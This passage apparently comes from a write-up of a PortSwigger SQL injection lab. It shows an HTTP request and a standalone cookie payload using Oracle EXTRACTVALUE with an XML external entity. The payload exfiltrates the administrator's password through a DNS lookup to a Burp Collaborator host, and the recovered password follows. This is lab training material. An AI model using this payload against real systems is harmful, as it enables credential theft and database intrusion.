Cookie: TrackingId=uSdq0uCSJ0Bo21MN'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; session=zahAEPB6Ls0SjsSsM8q2e3HMjPIF7gfi
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



```



## **`payload`**

```url
Cookie: TrackingId=uSdq0uCSJ0Bo21MN'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; 
```




<img width="1515" height="762" alt="image" src="https://github.com/user-attachments/assets/abc60122-0eb3-4b9a-ac53-a920a58cd44a" />

**`password`**

```
 l9fegk90yhnd387imm9m
```

 
</details>





























## [Portsqigger cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)




































